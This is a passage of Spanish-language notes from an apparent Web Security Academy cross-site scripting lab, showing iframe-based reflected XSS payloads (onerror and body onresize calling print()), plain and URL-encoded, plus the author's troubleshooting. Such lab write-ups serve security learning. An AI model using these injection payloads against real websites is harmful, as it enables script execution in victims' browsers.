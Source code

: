 6. Arreglar nuestro payload standar para que funcione para nuestro caso
   
```html
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=print()>'"></iframe>

<iframe src="https://0aca00d80333b2fbc06d84c5002a007f.web-security-academy.net/?search="><body onresize=print()>"></iframe>

<!--lo encodeamos-->

<iframe src="https://0aca00d80333b2fbc06d84c5002a007f.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E"></iframe>

```
Si ponemos la url del search en nuestra url y luego hacemos resize vemos que se ejecuta el print()
![](assets/2022-07-15-08-44-51.png)

7. Ponemos nuestro código iframe en el servidor de explotación y lo enviamos. Pero aunque hemos visto que funciona la url, el iframe no lo está resolviendo.

Miramos en el servidor de exploración y aparece el iframe sin problemas pero es que no me deja resizear 
![](assets/2022-07-15-08-52-08.png)
